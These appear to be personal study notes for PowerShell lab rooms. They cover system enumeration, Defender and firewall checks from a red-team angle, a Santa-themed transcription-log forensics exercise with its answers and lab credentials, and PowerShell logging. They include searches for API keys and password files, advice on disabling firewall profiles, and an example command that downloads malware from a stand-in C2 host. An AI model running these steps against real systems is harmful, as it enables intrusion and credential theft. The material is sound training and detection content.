# Windows PowerShell

_Source timestamp: Saturday, November 18, 2023, 5:22 PM_

> Converted from a OneNote Word export into Markdown for rapid cybersecurity reference. Commands and lab steps are preserved from the source notes; use only in authorized lab or assessment environments.

### Answer the Following Questions

- What is the location of the file "interesting-file.txt"?

- They names this file to be intentionally deceptive. You can find the file if you just look through the GUI. But, if you do it right, then you don't notice the file extensions are actually hidden. The harder you search the more wrong you will be.

```text
Get-Childitem -Recurse -Path C:\ -ErrorAction SilentlyContinue -Filter *interesting-file*
```

### Specify the contents of this file

### You must use quotes around the file path because there is a space in "Program Files"

```text
Get-Content 'C:\Program Files\interesting-file.txt.txt'
```

- How many cmdlets are installed on the system(only cmdlets, not functions and aliases)?

```text
Get-Command -co cmdlet | measure
```

- Get the MD5 hash of interesting-file.txt

```text
Get-Filehash <file path> -Algorithm <hash type>
```

- What is the command to get the current working directory?

```text
Get-Location
```

### What command would you use to make a request to a web server?

```text
Invoke-Webrequest
```

### Enumeration

- The first step when you have gained initial access to any machine would be to enumerate.

### Answer the following questions to enumerate the machine using Powershell!

### How many users are there on the machine?

```text
Get-LocalUser
```

### Which local user does this SID(S-1-5-21-1394777289-3961777894-1791813945-501) belong to?

```text
Get-LocalUser | Select-Object name, sid
```

### How many users have their password required values set to False?

```text
Get-LocalUser | Select-Object name, sid, PasswordRequired
```

### How many local groups exist?

```text
Get-LocalGroup | measure
```

### What command did you use to get the IP address info?

```text
Get-NetIPAddress
```

### How many ports are listed as listening?

```text
Get-NetTCPConnection -State Listen | measure
```

### What is the remote address of the local port listening on port 445?

- "::"

### How many patches have been applied?

```text
Get-hotfix | measure
```

### When was the patch with ID KB4023834 installed?

```text
Get-hotfix -ID KB4023834
```

- Find the contents of a backup file. They named this file to be intentionally deceptive. You can find the file if you just look through the GUI. But, if you do it right, then you don't notice the file extensions are actually hidden. The harder you search the more wrong you will be.

```text
Get-Childitem -Recurse -Path C:\ -ErrorAction SilentlyContinue -Filter *.bak*
```

- returns the file: passwords.bak.txt

```text
Get-Content "C:\Porgram Files (x86)\Internet Explorer\passwords.bak.txt"
```

### Search for all files containing API_KEY

```text
Get-Childitem -Recurse -Path C:\ -ErrorAction SilentlyContinue | Select-String "API_KEY"
```

### What command do you do to list all the running processes?

```text
Get-Process
```

### What is the path of the scheduled task called new-sched-task?

```text
Get-ScheduledTask -TaskName new-sched-task | Select-Object TaskName, TaskPath
```

- Who is the owner of the C:\

```text
Get-ACL C:\
```

  - (Must have the "\" or will get the wrong answer)

### Windows Defender

- Microsoft Windows Defender is a pre-installed antivirus security tool that runs on endpoints.

- It uses various algorithms in the detection, including machine learning, big-data analysis, in-depth threat resistance research, and Microsoft cloud infrastructure in protection against malware and viruses.

- MS Defender works in three protection modes: Active, Passive, Disable modes.

- Active mode is used where the MS Defender runs as the primary antivirus software on the machine where provides protection and remediation.

- Passive mode is run when a 3rd party antivirus software is installed. Therefore, it works as secondary antivirus software where it scans files and detects threats but does not provide remediation.

### Disable mode is when the MS Defender is disabled or uninstalled from the system.

### We can use the following PowerShell command to check the service state of Windows Defender:



- Next, we can start using the Get-MpComputerStatus cmdlet to get the current Windows Defender status.

- However, it provides the current status of security solution elements, including Anti-Spyware, Antivirus, LoavProtection, Real-time protection, etc.

### We can use select to specify what we need for as follows,



- As a result, MpComputerStatus highlights whether Windows Defender is enabled or not.

- As a red teamer, it is essential to be aware of whether antivirus exists or not. It prevents us from doing what we are attempting to do. We can enumerate AV software using Windows built-in tools, such as wmic.



- This also can be done using PowerShell, which gives the same result.



- As a result, there is a third-party antivirus (Bitdefender Antivirus) and Windows Defender installed on the computer. Notethat Windows servers may not have SecurityCenter2 namespace, which may not work on the attached VM. Instead, it works for Windows workstations!

### Host-based Firewall

- It is a security tool installed and run on a host machine that can prevent and block attacker or red teamers' attack attempts.

- essential to enumerate and gather details about the firewall and its rules within the machine we have initial access to.

- The main purpose of the host-based firewall is to control the inbound and outbound traffic that goes through the device's interface.

- It protects the host from untrusted devices that are on the same network.

- A modern host-based firewall uses multiple levels of analyzing traffic, including packet analysis, while establishing the connection.

- A firewall acts as control access at the network layer. It is capable of allowing and denying network packets.

- For example, a firewall can be configured to block ICMP packets sent through the ping command from other machines in the same network.

- Next-generation firewalls also can inspect other OSI layers, such as application layers.

- Therefore, it can detect and block SQL injection and other application-layer attacks.



- If we have admin privileges on the current user we logged in with, then we try to disable one or more than one firewall profile using the Set-NetFirewallProfile cmdlet.



- We can also learn and check the current Firewall rules, whether allowing or denying by the firewall.



- During the red team engagement, we have no clue what the firewall blocks.

- However, we can take advantage of some PowerShell cmdlets such as Test-NetConnection and TcpClient.

- Assume we know that a firewall is in place, and we need to test inbound connection without extra tools, then we can do the following:



- As a result, we can confirm the inbound connection on port 80 is open and allowed in the firewall. Note that we can also test for remote targets in the same network or domain names by specifying in the -ComputerName argument for the Test-NetConnection.

### Answer the questions below

### Enumerate the attached Windows machine and check whether the host-based firewall is enabled or not! (Y|N)



  - Answer: N

- Using PowerShell cmdlets such Get-MpThreat can provide us with threats details that have been detected using MS Defender. Run it and answer the following: What is the file name that causes this alert to record?

  - Answer: powerview.ps1



- Enumerate the firewall rules of the attached Windows machine. What is the port that is allowed under the THM-Connection rule?



```text
PowerShell Transcription Logs
```

```text
PowerShell Transcription Logs capture the input and output of Windows PowerShell commands, allowing an analyst to review what happened when
```

- can be enabled by Group Policy OR by configuring the Windows Registry.

- The Windows Registry is a large database of operating system settings and configurations. It is organized by "hives", with each hive containing "keys" and their corresponding "values." PowerShell Transcription Logging can be enabled in this way "per-user" via the HKEY_CURRENT_USER registry hive, or across the entire host via the HKEY_LOCAL_MACHINE registry hive. Thankfully, Santa's laptop had this enabled machine-wide!


- While you do not have to use these commands for this task, these will turn on PowerShell Transcription Logging for a local host if entered in an Administrator command prompt:

```text
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0x1 /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v OutputDirectory /t REG_SZ /d C:/ /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableInvocationHeader /t REG_DWORD /d 0x1 /f
```

- Note that for this task, you will interact with a Windows virtual machine to perform your analysis. For the sake of storyline, this is not Santa's laptop... rather, you have sample files that were recovered before the laptop was stolen.

### Answer the questions below

- Read the premise above, start the attached Windows analysis machine and find the transcription logs in the SantasLaptopLogs folder on the Desktop.

  - If you want to RDP into the machine, start the AttackBox and enter the following into a terminal: xfreerdp /u:Administrator /p:grinch123! /v:10.10.125.106 - The credentials for the machine are Administrator as the username, and grinch123! as the password.

  - Each transcription log is a simple plain text file that you can open in any editor of your choice. While the filenames are random, you can get an idea as to which log "comes first" by looking at the Date Modified or Date Created attributes, or the timestamps just before the file extension!

  - Open the first transcription log. You can see the commands and output for everything that ran within PowerShell, like whoami and systeminfo!

### What operating system is Santa's laptop running ("OS Name")?

```text
set-location C:\Users\Administrator\Desktop\SantasLaptopLogs
get-childitem -Recurse | select-string "OS Name"
```

  - Answer: Microsoft windows 11 Pro

### What was the password set for the new "backdoor" account?

```text
get-childitem -Recurse | select-string "backdoor" // no results
get-childitem -Recurse | select-string "password" // three files with indicate password activity
get-content .|PowerShell_transcript.LAPTGOP.k_dg27us.20211128153538.txt
```

  - Answer: grinchstolechristmas

  - Note: the best command for this question would have been:

```text
get-childitem -Recurse | select-string -Pattern "net user" -Pattern "/add"
```

  - In one of the transcription logs, the bad actor interacts with the target under the new backdoor user account, and copies a unique file to the Desktop. Before it is copied to the Desktop, what is the full path of the original file?

```text
get-childitem -Recurse | select-string "s4nta"
```

    - Answer: C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat

  - The actor uses a [Living Off The Land](https://lolbas-project.github.io/lolbas/Binaries/Certutil/)binary (LOLbin) to encode this file, and then verifies it succeeded by viewing the output file. What is the name of this LOLbin?

### follow the link

    - Answer: certutil.exe

### ShellBagsExplorer

### The UsrClass.dat file was encoded with Base64

- Base64 decode the contents between the -----BEGIN CERTIFICATE----- and -----END CERTIFICATE----- markers within the transcription log with CyberChef, which you have a local copy of on the Desktop of your analysis machine.

```text
get-childitem -Recurse | select-string "BEGIN CERTIFICATE"
```

### reveals the contents of the UsrClass.data is fully In the log file

```text
get-content PowerShell_transcript.LAPTOP.Zw6PA+c4.202111128153734.txt
```

### turns out to be very long and too much

```text
get-content PowerShell_transcript.LAPTOP.Zw6PA+c4.202111128153734.txt | out-file shellbagsOutput.txt
```

### saved to downloads folder

- This file can be used to aid in our investigation.

  - The UsrClass.dat file contains "Shellbags," or artifacts contained within the Windows registry that store user preferences while viewing folders within the Windows Explorer GUI. If you could carve out this information, you could get an idea as to what user activity was performed on the laptop before it was stolen or compromised! For more details and information on Shellbags, you are strongly encouraged to do some [extra reading](https://shehackske.medium.com/windows-shellbags-part-1-9aae3cfaf17) or research. :)

  - To extract the Shellbags information within this UsrClass.dat file, we will use the "[Shellbags Explorer](https://www.sans.org/tools/shellbags-explorer/)" graphical utility put together by [Eric Zimmerman](https://ericzimmerman.github.io/). This utility is found readily available inside the ShellBagsExplorer folder on the Desktop of your Windows machine, with the application name ShellBagsExplorer.exe .



### Read the above and open the ShellBagsExplorer.exe application found in the folder on your Desktop.

  - With ShellBagsExplorer.exe open, use the top-bar menu to select File -> Load offline hive and navigate to the location of where you saved the decoded UsrClass.dat . Load in the UsrClass.dat file and begin to explore the Shellbags discovered!



  - Under the Desktop folder, there seems to be a suspicious folder named "SantaRat".

### Could this be a remote access trojan, that was used for further nefarious activity on Santa's laptop?

    - Unfortunately, from just Shellbags alone, we only have insight into folder names (sometimes files, if we are lucky) and column data within Windows Explorer, but not files... how could we uncover more details?

- Drill down into the folders and see if you can find anything that might indicate how we could better track down what this SantaRat really is. What specific folder name clues us in that this might be publicly accessible software hosted on a code-sharing platform?

### Open the hierarchy

### the software was downloaded from github, so there is always a clue

  - Answer: ".github"

- Additionally, there is a unique folder named "Bag of Toys" on the Desktop! This must be where Santa prepares his collection of toys, and this is certainly sensitive data that the actor could have compromised. What is the name of the file found in this folder?

  - Answer: "bag_of_toys.zip"

- Track down this SantaRat software online. It may be just as simple as searching for the name of the software on the suggested website (Github). What is the name of the user that owns the SantaRat repository?

  - Answer: Grinchiest

- Explore the other repositories that this user owns. What is the name of the repository that seems especially pertinent to our investigation?

  - Answer: operation-bag-of-toys

- Read the information presented in this repository. It seems as if the actor has, in fact, compromised and tampered with Santa's bag of toys! You can review the activity in the transcription logs. It looks as if the actor installed a special utility to collect and eventually exfiltrate the bag of toys. What is the name of the executable that installed a unique utility the actor used to collect the bag of toys?

```text
get-childitem -Recurse | select-string ".exe"
```

### nothing is obvious but one line fits the length in the answer box

  - Answer: uharc-cmd-install.exe

- In the last transcription log, you can see the activity that this actor used to tamper with Santa's bag of toys! It looks as if they collected the original contents with a UHA archive. A UHA archive is similar to a ZIP or RAR archive, but faster and with better compression rates. It is very rare to see, but it looks the Grinch Enterprises are pulling out all the tricks!

- You can see the actor compressed the original contents of the bag of toys with a password. Unfortunately, we are unable to see what the specific password was in these transcription logs! Perhaps we could find it elsewhere...

- Following this, the actor looks to have removed everything from the bag of toys, and added in new things like coal, mold, worms, and more! What are the contents of these "malicious" files (coal, mold, and all the others)?

```text
get-content -Recurse | select-string "mold"
get-content -Recurse | select-string "coal"
get-content PowerShell_transcript.LAPTOP.myCoN91B.20211128155453.txt
```

### answer is in the "value" of each entry

  - Answer: GRINCHMAS

- We know that the actor seemingly collected the original bag of toys. Maybe there was a slight OPSEC mistake, and we might be able to recover Santa's Bag of Toys! Review the actor's repository for its planned operations... maybe in the commit messages, we could find the original archive and the password!

- What is the password to the original bag_of_toys.uha archive? (You do not need to perform any password-cracking or bruteforce attempts)

### in commit 4161546

  - Answer: TheGrinchiestGrinchmasOfAll

- McSkidy was able to download and save a copy of the bag_of_toys.uha archive, and you have it accessible on the Desktop of the Windows analysis machine. After uncovering the password from the actor's GitHub repository, you have everything you need to restore Santa's original bag of toys!! Double-click on the archive on the desktop to open a graphical UHARC extraction utility that has been prepared for you. Using the password you uncovered, extract the contents into a location of your choosing (you might make a "Bag of Toys" directory on the Desktop to save all the files into).With that, you have successfully recovered the original contents of Santa's Bag of Toys! You can view these in the Windows Explorer file browser to see how many were present.

### How many original files were present in Santa's Bag of Toys?

```text
get-childitem | measure
```

### Powershell: Logging Commands

You won't capture its commands by just using process creation logs like the Sysmon event ID 1.

Take a look at the command prompt below:

Commands Entered in PowerShell Terminal

```text
PS C:\> Get-ChildItem
PS C:\> Get-Content secrets.txt
PS C:\> Get-LocalUser; Get-LocalGroup
PS C:\> Invoke-WebRequest http://c2server.thm/a.exe -OutPath C:\Temp\a.exe
```

Here, the threat actor managed to read a sensitive file, view local users and groups, and even download malware to the Temp directory. Still, you will see a single event ID 1 stating that powershell.exe was launched, with no information about the executed commands.

### How It Works

Every program has a specific purpose: firefox.exe is a web browser, notepad.exe is a text editor, and whoami.exe simply outputs your username. If you're just browsing the web, you might only create a single Firefox process. However, with every out-of-scope task like RDP access or photo editing, you will have to open new programs and create additional logs.

PowerShell, on the other hand, is a powerful all-in-one tool for managing the system. Once you launch powershell.exe, you can run hundreds of different commands within the same terminal session without creating new processes for each action. This is why Sysmon is not very helpful here, and you'll need to find an alternative logging approach.

```text
PowerShell History File
```

There are at least five methods to monitor PowerShell, each with its own pros and cons.

While you can check out the [Logless Hunt](https://tryhackme.com/room/loglesshunt) room and research AMSI and Transcript Logging topics

```text
PowerShell history file:
C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

The PowerShell history file is a plain text file automatically created by PowerShell. It simply records every command you type into a PowerShell window and is immediately updated when you press Enter to submit a command:



### Key Notes

- The history file is very useful for tracking malicious actions like system discovery or malware download

- The history file is created for every user, meaning that you may see five files if there are five active system users

- It survives system reboots unless manually deleted and saves all PowerShell commands entered for all time

- It does not log command outputs and does not show script content (e.g. when running powershell .\script.ps1)
